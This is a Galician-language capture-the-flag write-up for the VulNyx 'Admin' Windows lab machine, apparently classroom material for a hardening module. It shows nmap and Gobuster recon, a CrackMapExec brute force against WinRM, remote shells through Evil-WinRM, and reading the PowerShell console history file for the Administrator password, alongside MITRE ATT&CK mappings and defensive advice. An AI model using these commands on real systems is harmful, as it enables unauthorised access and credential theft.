

Admin
A máquina Admin é moi interesante porque...
- Sistema operativo Windows 10
- Servidor web IIS exposto
- Enumeración web con Gobuster
- Descubrimento de ficheiro .txt con pista
- Ataque de forza bruta con CrackMapExec sobre WinRM
- Acceso con Evil-WinRM como usuario sen privilexios de administrador
- Escalada de privilexios mediante WinPEAS
- Obtención de credenciais de Administrator en console_history
Diagrama de ataque

Fase 1 — Recopilación
sudo arp-scan --interface=eth1 192.168.56.0/24
ping -c2 IP_VulNyx_Admin -R # TTL ≃ 128 ⇒ Microsoft Windows
sudo nmap -sT -Pn -T4 -p- -vvv --min-rate 5000 IP_VulNyx_Admin
Resultado do escaneo de portos:
Portos identificados:
- Porto 80: Servidor web (IIS)
- Porto 445: SMB (Microsoft-DS)
- Porto 5985: WinRM (Windows Remote Management)
Fase 2 — Análise
Escaneo de servizos e versións
# Escaneo detallado dos portos abertos
sudo nmap -p80,445,5985 -sCV IP_VulNyx_Admin -oN targeted -oX targeted.xml
Información importante:
- WinRM habilitado no porto 5985
- SMB accesible no porto 445
- Servidor web no porto 80
Enumeración web
# Enumerar directorios e ficheiros con Gobuster
gobuster dir -u http://IP_VulNyx_Admin \
-w /usr/share/wordlists/dirb/common.txt \
-x php,txt,html,bak
Resultado importante:
Descubrimento de pista
Contido de [file].txt:
Análise da pista:
[usuario]parece ser un nome de usuario- Necesitamos atopar o contrasinal para este usuario
- WinRM está dispoñible, podemos probar forza bruta
Información sobre WinRM
Que é WinRM?
WinRM (Windows Remote Management) é a implementación de Microsoft do protocolo WS-Management.
Características:
- Permite xestión remota de sistemas Windows
- Porto por defecto: 5985 (HTTP) e 5986 (HTTPS)
- Alternativa a SSH en sistemas Windows
- Require credenciais válidas
Evil-WinRM
Evil-WinRM é unha ferramenta para explotar WinRM:
- Shell interactiva remota
- Upload/download de ficheiros
- Carga de scripts PowerShell
- Ideal para post-explotación
Sintaxe básica:
Fase 3 — Explotación
Ataque de forza bruta con CrackMapExec
# Preparar lista de contrasinais
# Usar rockyou.txt (primeiras 5000 liñas para este exemplo)
head -5000 /usr/share/wordlists/rockyou.txt > 5000-rockyou.txt
# Ataque de forza bruta sobre WinRM
crackmapexec -t 200 winrm IP_VulNyx_Admin -u [usuario] -p 5000-rockyou.txt
Saída esperada:
Credenciais válidas atopadas:
- Usuario:
[usuario] - Contrasinal:
[contrasinal]
Verificación con SMB
# Verificar credenciais tamén en SMB
crackmapexec -t 200 smb IP_VulNyx_Admin -u [usuario] -p 5000-rockyou.txt
Saída:
Credenciais válidas en ambos servizos (WinRM e SMB)
Acceso con Evil-WinRM
Saída esperada:
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\[usuario]\Documents>
Obtención de flag de usuario
# Navegar ao Desktop
*Evil-WinRM* PS C:\Users\[usuario]\Documents> cd ..\Desktop
# Ler flag de usuario
*Evil-WinRM* PS C:\Users\[usuario]\Desktop> type user.txt
[FLAG_USER]
Flag de usuario conseguida
Fase 4 — Escalada de Privilexios
Prácticas Taller Microsoft Windows
Ferramentas de auditoría - Módulo Bastionado de redes e sistemas
Upload de WinPEAS
# Desde Evil-WinRM, facer upload de winpeas.exe
*Evil-WinRM* PS C:\Users\[usuario]\Documents> upload /ruta/local/winpeas.exe
# Executar WinPEAS
*Evil-WinRM* PS C:\Users\[usuario]\Documents> .\winpeas.exe
WinPEAS (Windows Privilege Escalation Awesome Scripts) é unha ferramenta para enumerar vectores de escalada de privilexios en Windows.
Descubrimento de credenciais en console_history
WinPEAS atopa información sensible:
- console_history de PowerShell
- Contén comandos executados anteriormente
- Pode conter credenciais en texto claro
# Localizar e ler console_history
*Evil-WinRM* PS C:\Users\[usuario]> type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Contido do ficheiro:
# Comandos executados polo usuario
...
# Credenciais de Administrator atopadas
$password = ConvertTo-SecureString "PASSWORD_ADMINISTRATOR" -AsPlainText -Force
...
Credenciais de Administrator descubertas:
- Usuario:
administrator - Contrasinal:
[PASSWORD_ATOPADO]
Acceso como Administrator
# Nova conexión Evil-WinRM como Administrator
evil-winrm -i IP_VulNyx_Admin -u administrator -p "PASSWORD_ATOPADO"
Saída:
Evil-WinRM shell v3.7
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
Obtención de flag de root
# Navegar ao Desktop de Administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
# Ler flag de root
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
[FLAG_ROOT]
Ambas flags conseguidas
Correspondencia de fases → MITRE ATT&CK — VulNyx: Admin
| Fase | Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|---|
| 1. Recopilación | Descubrimento de host e servizos expostos | Scanning / descubrimento de servizos | T1595 — Active Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure (reconnaissance) |
| Detección de sistema operativo Windows 10 | OS fingerprinting | T1592.004 — Gather Victim Host Information: Client Configurations | CWE-200 — Information Exposure | |
| 2. Análise | Enumeración web con Gobuster | Web content discovery | T1595.002 — Active Scanning: Vulnerability Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure |
| Descubrimento de [file].txt con pista de usuario | Information disclosure | T1592 — Gather Victim Host Information T1589 — Gather Victim Identity Information |
CWE-200 — Information Exposure | |
| 3. Explotación | Forza bruta sobre WinRM con CrackMapExec | Brute force attack | T1110 — Brute Force T1110.001 — Brute Force: Password Guessing |
CWE-521 — Weak Password Requirements |
| Acceso con Evil-WinRM como [usuario] | Remote service exploitation | T1021.006 — Remote Services: Windows Remote Management T1078 — Valid Accounts |
CWE-521 — Weak Password Requirements | |
| 4. Escalada | Enumeración con WinPEAS | System information discovery | T1082 — System Information Discovery T1033 — System Owner/User Discovery |
CWE-200 — Information Exposure |
| Descubrimento de credenciais en console_history | Credential access from files | T1552.001 — Unsecured Credentials: Credentials In Files T1552.003 — Unsecured Credentials: Bash History |
CWE-256 — Plaintext Storage of a Password | |
| Acceso como Administrator | Privilege escalation | T1078.002 — Valid Accounts: Domain Accounts T1021.006 — Remote Services: Windows Remote Management |
CWE-256 — Plaintext Storage of a Password | |
| Navegación polo sistema de ficheiros e lectura de flags | File and directory discovery | T1083 — File and Directory Discovery T1005 — Data from Local System |
N/A |
Recursos Adicionais
Referencias sobre WinRM e Evil-WinRM
Ferramentas utilizadas
- Gobuster: Enumeración web de directorios e ficheiros
- CrackMapExec: Framework para ataques contra redes Windows
- Evil-WinRM: Shell remota mediante WinRM
- WinPEAS: Enumeración de vectores de escalada en Windows
Vulnerabilidades e configuracións inseguras
- CWE-521: Weak Password Requirements
- CWE-256: Plaintext Storage of a Password
- CWE-200: Information Exposure
- Contrasinais débiles: "[contrasinal]" é unha contrasinal moi débil
- Console history: Almacenar credenciais en historial de comandos
Recomendacións de seguridade
- Contrasinais fortes: Usar contrasinais complexas (maiúsculas, minúsculas, números, símbolos)
- Políticas de contrasinais: Implementar políticas de complexidade e lonxitude mínima
- Non almacenar credenciais: Non gardar contrasinais en scripts ou historial
- Limitar WinRM: Restrinxir acceso a WinRM só a IPs/usuarios autorizados
- Auditoría: Monitorizar intentos de autenticación fallidos
- PowerShell Constrained Language Mode: Limitar execución de scripts non autorizados
- Limpar historial: Educar usuarios sobre non deixar credenciais en historial
Notas Importantes
- Windows 10: Sistema operativo moderno pero con configuracións inseguras
- WinRM exposto: Permite ataques de forza bruta remotos
- Contrasinal débil: "[contrasinal]" é facilmente adiviñable
- Information disclosure: [file].txt revela nome de usuario
- Console history: Credenciais de Administrator en texto claro
- Escalada simple: Non require exploits complexos, só enumeración
- WinPEAS: Ferramenta fundamental para post-explotación en Windows
Esta máquina é unha excelente demostración da importancia de usar contrasinais fortes e non almacenar credenciais en ficheiros de historial.
Fluxo de ataque resumido
1. Enumeración web → Descubrimento de [file].txt → Usuario: [usuario]
↓
2. Forza bruta WinRM → Credenciais: [usuario]:[contrasinal]
↓
3. Acceso Evil-WinRM → Flag de usuario
↓
4. WinPEAS → console_history → Credenciais Administrator
↓
5. Evil-WinRM como Administrator → Flag de root
Comparativa: WinRM vs SSH
WinRM vs SSH
| Característica | WinRM | SSH |
|---|---|---|
| Sistema operativo | Windows | Linux/Unix (Windows con OpenSSH) |
| Porto por defecto | 5985 (HTTP), 5986 (HTTPS) | 22 |
| Protocolo | SOAP sobre HTTP/HTTPS | SSH |
| Ferramentas | Evil-WinRM, PowerShell Remoting | ssh, scp, sftp |
| Autenticación | NTLM, Kerberos, Basic | Password, Public key |
| Cifrado | TLS (HTTPS) | SSH (sempre cifrado) |
| Uso común | Administración remota Windows | Administración remota Linux/Unix |
Conclusión: WinRM é o equivalente de SSH en sistemas Windows, pero require configuración de seguridade coidadosa.